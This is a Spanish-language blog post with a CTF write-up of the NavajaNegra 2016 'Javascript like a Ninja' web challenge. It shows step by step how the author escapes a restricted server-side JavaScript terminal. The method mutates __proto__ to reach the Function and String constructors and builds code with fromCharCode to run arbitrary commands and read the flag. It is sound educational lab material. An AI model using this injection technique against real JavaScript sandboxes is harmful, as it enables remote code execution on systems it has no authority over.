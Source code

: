 # NavajaNegra 2016 – Web 2 – Javascript like a Ninja

Una vez superada la primera prueba, deberíamos haber obtenido las credenciales del administrador MojoJojo.

Así que el primer paso es ‘encontrar’ el panel de login y acceder: http://challenges.ka0labs.org:31337/login

![](img/mojojojo-login)

Una vez dentro nos encontramos con un terminal llamado MoJS en el que podemos escribir instrucciones, al parecer en lenguaje JavaScript.

![](img/mojojojo-terminal)

Si revisamos el código fuente de la página, podemos encontrar un comentario con información de como utilizar el terminal.

```
Notes:
Ok, with all that languages out there I sometimes forget my own =_=’
Types: only integers to count
Operations: addition with ‘+’
Auxiliar functions: ‘help’
Assign to ‘result’ to see output
```

Con esta información ya deberíamos poder utilizar correctamente la terminal.
Probamos con `result=help;` y obtenemos en pantalla la función help


```
"function () { return execute.toString(); }"
```

Si la ejecutamos con result=help(0); obtenemos el código de la función execute, que es la parte servidor, encargada de recibir las instrucciones que escribimos en el terminal.

![](img/mojojojo-execute)

Una vez asimilado el código, vemos como las variables que escribimos en el terminal se guardan en el Objeto scope[sessId], también tenemos la restricción de no poder utilizar comillas y generar una cadena de texto o utilizar el carácter punto para lanzar un método.
Una de las pistas nos recomienda utilizar prototypes y mutar el objeto,
Javascript objects have prototypes. Mutate the scope.
Tras innumerables pruebas, se consigue mutar a diferentes tipos, si mutamos a Function podemos utilizar constructor para crear una función propia.

```
MoJS&gt; __proto__=help;
MoJS&gt; result=constructor;
"function Function() { [native code] }"
MoJS&gt;; result=constructor(123456);
"function anonymous() {\n123456\n}"
```

Incluso somos capaces de ejecutar la función, aunque de momento es una función que no devuelve nada.

```
MoJS&gt; result=constructor(123456)(0);
"undefined"
```

Nuestro siguiente objetivo es generar un String definido por nosotros para incluirlo en una función y poder ejecutar código.

Para ello mutamos a *String* utilizando la siguiente instrucción, es importante no haber mutado antes a Function.

```
MoJS&gt; __proto__=constructor(help(0));
"undefined"
MoJS&gt; result=constructor;
"function String() { [native code] }"
```

Por ultimo, mutamos a la clase String, donde tendremos acceso a la ansiada función fromCharCode.

```
MoJS&gt; result=constructor;
"function Function() { [native code] }"
MoJS&gt; result=fromCharCode;
"function fromCharCode() { [native code] }"
```

Ahora solo nos falta codificar la instrucción JavaScript que queramos ejecutar en el servidor.
Para ello necesitamos convertir nuestra instrucción a una secuencia de valores decimales y concatenarlos después de utilizar fromCharCode en cada uno de ellos. Por último, utilizamos constructor(instruccion)(0); para crear la función y ejecutarla.

```
return Object.keys(this);

114,101,116,117,114,110,32,79,98,106,101,99,116,46,107,101,121,115,40,116,104,105,115,41,59

result=constructor(fromCharCode(114)+fromCharCode(101)+fromCharCode(116)+fromCharCode(117)+fromCharCode(114)+fromCharCode(110)+fromCharCode(32)+fromCharCode(79)+fromCharCode(98)+fromCharCode(106)+fromCharCode(101)+fromCharCode(99)+fromCharCode(116)+fromCharCode(46)+fromCharCode(107)+fromCharCode(101)+fromCharCode(121)+fromCharCode(115)+fromCharCode(40)+fromCharCode(116)+fromCharCode(104)+fromCharCode(105)+fromCharCode(115)+fromCharCode(41)+fromCharCode(59))(0);

"execute,scope,fl4g"
```

Finalmente repetimos el paso anterior y codificamos la instrucción return fl4g; para obtener el flag.

```
return fl4g;
```

Aquí vemos la tres instrucciones necesarias para resolver la prueba

![](img/mojojojo-solucion)

Posted on October 7, 2016February 25, 2017Author JesúsTags CTF, Javascript, ka0labs, NavajaNegra2016
Post navigation
Previous Previous post: NavajaNegra 2016 – Web 1 MongoDB Blind Injection
Next Next post: CyberCamp Quals 2016 – Web 4 – Patataprinting like a b0ss
Proudly powered by WordPress